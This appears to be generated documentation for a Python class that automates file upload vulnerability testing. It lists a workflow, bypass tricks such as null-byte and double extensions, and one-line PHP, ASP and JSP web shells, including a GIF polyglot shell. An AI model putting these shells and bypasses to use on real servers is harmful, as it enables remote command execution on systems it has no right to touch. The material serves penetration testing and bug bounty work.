 ```yaml
---
title: class.FileUploadTestingFramework
kind: class
module: __main__
line_range: [2699, 2773]
discovered_in_chunk: 2
---
```


# FileUploadTestingFramework Class

## Entity Classification & Context
- **Kind:** Class
- **Scope:** Module-level
- **Module:** __main__ (reference-server.py)
- **Purpose:** Specialized framework for file upload vulnerability testing

## Complete Signature & Definition
```python
class FileUploadTestingFramework:
    """Specialized framework for file upload vulnerability testing"""
    
    def __init__(self):
        self.malicious_extensions = [
            ".php", ".php3", ".php4", ".php5", ".phtml", ".pht",
            ".asp", ".aspx", ".jsp", ".jspx",
            ".py", ".rb", ".pl", ".cgi",
            ".sh", ".bat", ".cmd", ".exe"
        ]
        
        self.bypass_techniques = [
            "double_extension",
            "null_byte",
            "content_type_spoofing",
            "magic_bytes",
            "case_variation",
            "special_characters"
        ]
```

## Purpose & Behavior
Comprehensive file upload vulnerability testing framework with:
- **Malicious File Generation:** Web shells and exploit payloads
- **Bypass Technique Testing:** Multiple evasion methods
- **Polyglot File Creation:** Multi-format exploit files
- **Workflow Automation:** Systematic upload testing methodology
- **Post-Upload Verification:** Execution and access testing

## Dependencies & Usage
- **Depends on:**
  - typing.Dict, Any for type annotations
  - File system operations for test file generation
- **Used by:**
  - Bug bounty hunting workflows
  - Web application security testing
  - Penetration testing automation

## Implementation Details

### Core Attributes
- **malicious_extensions:** Dangerous file extensions for web shells
- **bypass_techniques:** File upload restriction bypass methods

### Key Methods

#### Test File Generation
1. **generate_test_files() -> Dict[str, Any]:** Generate various test files for upload testing
2. **create_upload_testing_workflow(target_url: str) -> Dict[str, Any]:** Comprehensive upload testing workflow

### Malicious Extensions Coverage

#### Web Scripting Languages
- **PHP:** .php, .php3, .php4, .php5, .phtml, .pht
- **ASP/ASP.NET:** .asp, .aspx
- **Java:** .jsp, .jspx

#### Scripting Languages
- **Python:** .py
- **Ruby:** .rb
- **Perl:** .pl
- **CGI:** .cgi

#### System Executables
- **Unix/Linux:** .sh
- **Windows:** .bat, .cmd, .exe

### Bypass Techniques

#### Extension Manipulation
- **double_extension:** shell.php.txt
- **case_variation:** shell.PhP
- **special_characters:** shell.php. (trailing dot)

#### Content Manipulation
- **null_byte:** shell.php%00.txt
- **content_type_spoofing:** Modify MIME type headers
- **magic_bytes:** Prepend valid file signatures

### Test File Categories

#### Web Shells
- **PHP Shell:** <?php system($_GET['cmd']); ?>
- **ASP Shell:** <%eval request("cmd")%>
- **JSP Shell:** <%Runtime.getRuntime().exec(request.getParameter("cmd"));%>

#### Bypass Files
- **Double Extension:** shell.php.txt
- **Null Byte:** shell.php%00.txt
- **Case Variation:** shell.PhP
- **Trailing Dot:** shell.php.

#### Polyglot Files
- **Image Polyglot:** GIF89a<?php system($_GET['cmd']); ?>
- **Multi-format:** Valid image with embedded code

### Upload Testing Workflow (4 Phases)

#### Phase 1: Reconnaissance
- **Tools:** katana, gau, paramspider
- **Purpose:** Identify upload endpoints
- **Findings:** upload_forms, api_endpoints

#### Phase 2: Baseline Testing
- **Test Files:** image.jpg, document.pdf, text.txt
- **Observations:** response_codes, file_locations, naming_conventions
- **Purpose:** Understand normal behavior

#### Phase 3: Malicious Upload Testing
- **Test Files:** Generated web shells and bypass files
- **Techniques:** All bypass methods applied
- **Purpose:** Attempt restriction bypass

#### Phase 4: Post-Upload Verification
- **Actions:** file_access_test, execution_test, path_traversal_test
- **Purpose:** Verify successful upload and execution
- **Risk Assessment:** High risk level classification

### Security Impact Assessment
- **Risk Level:** High - file upload vulnerabilities can lead to RCE
- **Estimated Time:** 360 seconds (6 minutes) for comprehensive testing
- **Attack Vectors:** Web shell upload, arbitrary file execution, path traversal

## Testing & Validation
- File generation accuracy
- Bypass technique effectiveness
- Upload endpoint discovery
- Post-upload verification reliability

## Code Reproduction
Complete class implementation with 2 methods for specialized file upload vulnerability testing, including malicious file generation, bypass technique testing, and comprehensive workflow automation. Essential for web application security assessment and file upload vulnerability research.
